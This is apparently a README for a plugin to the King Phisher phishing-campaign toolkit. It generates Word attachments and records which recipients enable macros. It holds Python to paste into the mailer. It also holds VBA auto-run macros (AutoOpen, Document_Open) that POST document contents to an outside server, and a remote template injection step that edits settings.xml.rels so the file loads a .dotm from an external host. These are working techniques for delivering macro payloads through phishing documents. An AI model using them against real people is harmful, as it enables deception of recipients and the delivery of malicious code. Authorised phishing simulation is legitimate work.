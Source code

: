 # King-Phisher Plugin
This plugin extend the King Phisher Phishing Campaign Toolkit. With this plugin you can check how many people opened the Word attachment and chose the option to activate the macro or their macro execution was already active.

# Client Plugins

Name: Generate Word

Disclosed Date: February 13, 2021

# Prerequisites
note: The client and server must not be running.

you can run below command in install king-phisher directory for example, suppose you installed it at /opt/king-phisher then:

    cd /opt/king-phisher

    pipenv install docxtpl
    
# Local install
1- Locate the docx_generator folder in the following path:

    $HOME/.config/king-phisher/plugins
    
2- File mailer.py is located in the following path:

    /opt/king-phisher/king_phisher/client/mailer.py
    
Put the following code in the mailer.py file   

    def render_DOC_template_var(config, target=None, analyze=False):
      """	
            Take a config and return Template variables
      """
      if target is None:
        target = MessageTargetPlaceholder(uid=config['server_config'].get('server.secret_id'))
        template_environment.set_mode(template_environment.MODE_PREVIEW)
      print(target)
      if analyze:
        template_environment.set_mode(template_environment.MODE_ANALYZE)

      template_vars = {}
      template_vars['campaign'] = dict(
        id=str(config['campaign_id']),
        name=config['campaign_name']
      )
      template_vars['client'] = dict(
        first_name=target.first_name,
        last_name=target.last_name,
        email_address=target.email_address,
        department=target.department,
        company_name=config.get('mailer.company_name'),
        message_id=target.uid
      )

      template_vars['sender'] = dict(
        email=config.get('mailer.source_email'),
        friendly_alias=config.get('mailer.source_email_alias'),
        reply_to=config.get('mailer.reply_to_email')
      )
      template_vars['uid'] = target.uid

      message_type = config.get('mailer.message_type', 'email')
      template_vars['message_type'] = message_type
      if message_type == 'calendar_invite':
        template_vars['calendar_invite'] = dict(
          all_day=config.get('mailer.calendar_invite_all_day'),
          location=config.get('mailer.calendar_invite_location'),
          start=get_invite_start_from_config(config),
          summary=config.get('mailer.calendar_invite_summary')
        )

      template_vars['message'] = dict(
        attachment=config.get('mailer.attachment_file'),
        importance=config.get('mailer.importance'),
        recipient=dict(
          field=config.get('mailer.target_field', 'to'),
          to=(target.email_address if config.get('mailer.target_field') == 'to' else config.get('mailer.recipient_email_to', '')),
          cc=(target.email_address if config.get('mailer.target_field') == 'cc' else config.get('mailer.recipient_email_cc', '')),
          bcc=(target.email_address if config.get('mailer.target_field') == 'bcc' else '')
        ),
        sensitivity=config.get('mailer.sensitivity'),
        subject=config.get('mailer.subject'),
        template=config.get('mailer.html_file'),
        type=message_type
      )

      webserver_url = config.get('mailer.webserver_url', '')
      webserver_url = urllib.parse.urlparse(webserver_url)
      tracking_image = config['server_config']['server.tracking_image']
      template_vars['webserver'] = webserver_url.netloc
      tracking_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, tracking_image, '', 'id=' + target.uid, ''))
      webserver_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, webserver_url.path, '', '', ''))
      template_vars['tracking_dot_image_tag'] = "<img src=\"{0}\" style=\"display:none\" />".format(tracking_url)

      template_vars_url = {}
      template_vars_url['rickroll'] = 'http://www.youtube.com/watch?v=oHg5SJYRHA0'
      template_vars_url['webserver'] = webserver_url + '?id=' + target.uid
      template_vars_url['webserver_raw'] = webserver_url
      template_vars_url['tracking_dot'] = tracking_url
      template_vars['url'] = template_vars_url
      template_vars.update(template_environment.standard_variables)
      return template_vars
      
3- run server and client of king-phisher. In the client, enter the plugin manager dialog from tools -> manage plugins. From the local install section, check the install and enable docx_generator.

note: docx_generator and pdf_generator can not be activated at the same time

4- create a dotm template with macro on it. in the macro send uid (The unique tracking identifier ) to the landing page when open document file. sample code:

    Sub Auto_Open()
        expl
    End Sub

    Sub AutoOpen()
        expl
    End Sub

    Sub Document_Open()
        expl
    End Sub

    Public Function expl() As Variant

        Set mainStory = ActiveDocument.Content

        Dim MyRequest As Object
        Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")

        MyRequest.Open "POST", "https://[web_server_url]/[landing_page_name]?id=" + mainStory, False
        MyRequest.setRequestHeader "Content-type", "application/x-www-form-urlencoded"
        MyRequest.send (mainStory)

    End Function

5- Create the Word file with the template defined in the previous step and just write the following command in it and whiten its color.

    {{ secret_id }}
  
note: All config variables are returned in the code and you can define each of them in your Word file according to your needs.

6- After completing these steps, you place the template file created in step 4 on the server and change its premission so that it can be downloaded by everyone. Then you have to put the address of this file in the created Word file.To do this, zip the Word file and extract it and go to the following path:

    word_rels\settings.xml.rels
    
And replace the dotm file address with its local address in the Target section. see code below

    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://[web_server_address]/[name].dotm" TargetMode="External"/>     </Relationships>
